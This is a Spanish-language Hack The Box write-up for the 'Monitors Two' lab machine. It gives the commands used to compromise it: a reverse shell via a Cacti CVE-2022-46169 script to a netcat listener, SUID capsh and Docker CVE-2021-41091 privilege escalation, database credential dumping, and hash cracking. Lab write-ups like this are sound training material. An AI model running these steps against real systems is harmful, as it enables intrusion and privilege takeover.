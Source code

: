 ```yaml
---
title: MONITORS TWO WRITEUP.
description: Resolución de la máquina monitors two de Hack The Box.
author: Quantum 
date: 2023-09-21
categories: [HackTheBox]
tags: [remote code execution,privilege escalation, password cracking, cve, hackthebox, htb]
image:
  path: /assets/img/posts/htb/monitors_two/header.webp
  alt: Información de la máquina.
---
```


## Tools
- Python
- Netcat 
- John The Ripper
## Topics
- Remote Code Execution / Reverse Shell
- Docker
- CVE's 
- Privilege Escalation
- Password HASH cracking
- SSH

Hola, el dia de hoy vamos a resolver la maquina de monitors two de HTB.

Primero realizaremos un escaneo de reconocimiento con NMAP.

## Reconocimiento

```bash
sudo nmap -Pn -p- -A -T4 -oN scan.txt 10.10.11.211
```
Obtenemos el resultado del escaneo:

![nmap-scan](/assets/img/posts/htb/monitors_two/nmap-scan.png)

Observamos que existen dos puertos abiertos, el 22 que corresponde al servicio de SSH y el 80 que corresponde al servicio de HTTP. Revisamos el puerto 80 a través del navegador.

![cacti-login](/assets/img/posts/htb/monitors_two/cacti-login.png)

Observamos que es un login de Cacti, un software para el monitoreo de red. Probamos contraseñas  que estan por defecto sin tener exito. Sin embargo podemos buscar CVE para la versión 1.2.22 de cacti, misma que nos muestra en el login.

## RCE / Reverse Shell

Después de una búsqueda encontramos una CVE para la versión 1.2.22.

- [CVE 2022-46169](https://cve.mitre.org/cgi-bin/cvename.cgi?name=VE-2022-46169)

Buscando encontre el siguiente script que nos ayuda con la RCE y nos brinda una reverse shell.

-  [FredBrave CVE-2022-46169](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22)

Utilizare Netcat con los siguientes flags -n para que no haga resolucion de dns, -l para estar a la escucha, -v de verbose y -p que indica el puerto, en este caso 443:

```bash
sudo nc -nlvp 443
```

Utilizando el script para la RCE podremos obtener la reverse shell.

```bash
python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST 10.10.16.79 --LPORT=443
```

![python-script](/assets/img/posts/htb/monitors_two/python-script.png)

Ahora obtenemos la reverse shell a través del puerto 443.

![reverse-shell](/assets/img/posts/htb/monitors_two/reverse-shell.png)

## Escalada de privilegios

Utilizaremos esta herramienta para enumerar los binarios SUID.

- [LinEnum](https://github.com/rebootuser/LinEnum)

Crearemos un servidor web para poder acceder al recurso.

![webserver](/assets/img/posts/htb/monitors_two/python-webserver.png)

Obtenemos el recurso con wget.

![wget-source](/assets/img/posts/htb/monitors_two/wget-source.png)

Le damos permisos de ejecucion.

```bash
chmod +x LinEnum.sh
  ```

![LinEnum-Permission](/assets/img/posts/htb/monitors_two/linenum-permission.png)

Una vez ejecutado el script nos listara los archivos SUID, nos interesa el archivo ``/sbin/capsh``. ¿Por que nos interesa este archivo? Principalmente por que no pierde privilegios heredados, por que lo que puede funcionar nos como puerta trasera. Mas sobre este archivo:

- [gtfobins](https://gtfobins.github.io/gtfobins/capsh/)

![suid-enum](/assets/img/posts/htb/monitors_two/suid-files.png)

Nos dirigimos a la ruta ``/sbin`` donde se encuentra el archivo capsh y ejecutaremos el siguiente comando para poder escalar privilegios.

```bash
./capsh --gid=0 --uid=0 --
```

![capsh](/assets/img/posts/htb/monitors_two/capsh.png)

## Obteniendo credenciales

Observamos que mysql esta dentro del contenedor, utilizamos el siguiente comando para listar a los usuarios root.

```bash
mysql --host=db --user=root --password=root cacti -e "SELECT * FROM user_auth"
```

![resource](/assets/img/posts/htb/monitors_two/mysql.png)

Vemos que existe un usuario ``marcus`` y nos da un hash del password del usuario.

## Cracking Hash Password

Utilizaremos john the ripper para encontrar una coincidencia con un diccionario.

![john](/assets/img/posts/htb/monitors_two/john.png)

Vemos que ha encontrado una posible coincidencia.

## Logeandose por ssh

Intentaremos acceder por ssh introduciendo las credenciales del usuario marcus.

![ssh-auth](/assets/img/posts/htb/monitors_two/ssh-auth.png)

Y listo, tenemos acceso desde el usuario ``marcus``.

![login](/assets/img/posts/htb/monitors_two/ssh-login.png)

## Escalando privilegios

Listaremos la version de docker que se esta utilizando.

![docker-v](/assets/img/posts/htb/monitors_two/docker-v.png)

Vemos que es la version ``20.10.5+dfsg1``, buscaremos alguna CVE que pueda ayudarnos con la escalada de privilegios. Después de una busqueda encontre un script que nos ayuda con esta CVE.

- [Mitre CVE 2021-41091](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-41091)
- [CVE-2021-41091](https://github.com/UncleJ4ck/CVE-2021-41091)

Para poder usar este script necesitamos volver al contenedor y asignar a /bin/bash permisos de suid.

![bash](/assets/img/posts/htb/monitors_two/bash-u+s.png)

Exponemos el recurso con un servidor web como lo hicimos anteriormente.

![wget-exp](/assets/img/posts/htb/monitors_two/wget-exp.png)

Le damos permisos de ejecucion para poder utilizarlo. 

![exp=permission](/assets/img/posts/htb/monitors_two/exp-permission.png)

Despues de la ejecucion vemos que nos arroja un path: <br> ``/var/lib/docker/overlay2/c41d5854e4bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged``.

![exp-exe](/assets/img/posts/htb/monitors_two/exp-exe.png)

Nos dirigimos a ese directorio y ejecutamos el siguiente comando para obtener la shell en root.

```bash
./bin/bash -p
```

![powned](/assets/img/posts/htb/monitors_two/powned.png)

Y listo, ahora somos root.

Eso ha sido todo por el post, si piensas que me he equivocado en la informacion o en que he omitido algo que pueda mejorar el post, puedes contactarme por discord `quantumwavves`
